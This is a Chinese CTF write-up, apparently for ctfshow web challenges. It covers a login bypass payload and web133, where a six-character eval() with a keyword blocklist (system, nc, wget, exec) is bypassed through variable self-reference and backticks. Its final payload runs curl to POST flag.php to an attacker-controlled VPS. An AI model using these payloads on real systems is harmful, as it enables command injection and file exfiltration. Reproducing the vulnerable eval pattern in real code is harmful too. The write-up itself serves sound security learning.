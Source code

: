 知识点： `||`优先级低于`&&`，对于与”（&&） 运算： x && y 当x为false时，直接跳过，不执行y； 对于“或”（||） 运算 ： x||y 当x为true时，直接跳过，不执行y

```php
<?php
if (false && false || true){
    echo 123;
}
?>
//123
```

所以说我们只要让`$username ==="admin"`j即可绕过第一个if语句

payload:

> ?username=admin&password=1&code=admin





## web133

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

新姿势：传递的参数就是`$F`本身，发生变量覆盖

利用方法：

我们传递`?F=$F;+sleep 3`可以发现网址确实sleep了一会说明的确执行了命令

```
因为是我们传递的`$F`;+sleep 3。先进行substr()函数截断然后去执行eval()函数
这个函数的作用是执行php代码，``是shell_exec()函数的缩写，然后就去命令执行。
而$F就是我们输入的`$F`;+sleep 3 使用substr()函数的代码应该是
eval(`$F`; );
经过最后的变量覆盖为
eval(`$F`;+sleep 3`),就执行成功
```

所以我们可以这么利用

````
# payload 
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 
?F=`$F`;+curl -X POST -F xx=@flag.php vps的公网IP:端口
````
